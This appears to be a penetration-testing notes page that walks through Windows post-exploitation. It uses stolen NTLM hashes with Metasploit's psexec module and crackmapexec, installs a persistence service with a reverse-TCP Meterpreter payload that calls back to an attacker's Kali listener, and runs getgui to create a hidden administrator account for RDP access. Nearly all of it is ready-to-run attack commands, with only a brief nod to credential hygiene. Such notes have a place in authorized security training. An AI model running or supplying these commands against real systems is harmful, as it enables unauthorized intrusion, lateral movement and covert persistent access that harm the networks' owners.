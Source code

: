 # Pass the Hash Attacks

Obtaining and using the administrator's NTLM hash allows persistent access to the target system through a technique called **pass-the-hash (PTH)** - enabling authentication without the plaintext password. This underscores the critical need for strong credential management and highlights risks tied to weak or reused passwords.

**PsExec**
The PsExec module in Metasploit (`exploit/windows/smb/psexec`) is used to execute commands on a remote Windows machine over **SMB** (Server Message Block). This module is particularly useful for lateral movement and privilege escalation in post-exploitation scenarios.

```shell
use exploit/windows/smb/psexec
show options
set LPORT <port_number>
set RHOSTS <target_IP>
set SMBUser Administrator # Use the Administrator account for SMB authentication
set SMBPass <LM:NTLM>  # Provide the LM and NTLM hash (in LM:NTLM format)
exploit
```

Even if you already have administrative access on one machine through a Meterpreter session, using PsExec allows you to:
- **Establish Persistent Access:** If your original exploit gets patched or the vulnerability is fixed, using PsExec with valid credentials (or hashes) lets you regain access without exploiting the vulnerability again.
- **Lateral Movement Across the Network:** You can use stolen credentials (or NTLM hashes) to move from one compromised machine to other systems within the network that share the same credentials.
- **Privilege Escalation:** If you don't have the highest privileges on a new target system, PsExec can help you gain full administrative access using known valid credentials.

**Crackmapexec**

```shell
# Another way is using crackmapexec
crackmapexec smb <target IP> -u Administrator -H "<NTLM hash>"
crackmapexec smb <target IP> -u Administrator -H "<NTLM hash>" -x "ipconfig"
crackmapexec smb <target IP> -u Administrator -H "<NTLM hash>" -x "whoami"
```

<br>

# Persistence Service - Metasploit Modules

```shell
use exploit/windows/local/persistence_service
show options
set SESSION 1
exploit
# By default the module uses the following payload: windows/meterpreter/reverse_tcp

# Start another msfconsole and run multi handler to re-gain access
use exploit/multi/handler
set LHOST <Kali_IP>
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT <port_number>
exploit

# Switch back to the active meterpreter session and reboot the machine
session -i 1
reboot
# Once the machine reboots we would expect a new meterpreter session without re-exploitation. This happened because we have added a malicious executable for maintaining access
```

<br>

# Maintaining Access: RDP

We will be creating a user and adding that user to the Administrators group. All this can be done using the `getgui` meterpreter command.

The `getgui` command makes the below changes to the target machine:
- Enable RDP service if it’s disabled
- Creates new user for an attacker
- Hide user from Windows Login screen
- Adding created user to "Remote Desktop Users" and "Administrators" groups

```shell
run getgui -e -u alice -p hack_123321
# run getgui > Runs the getgui Meterpreter script — short for “get GUI (Graphical User Interface)”
# -e > Enables Remote Desktop (RDP) service on the target
# -u alice > Creates a new user named alice
# -p hack_123321 > Sets the password for the alice user to hack_123321
```
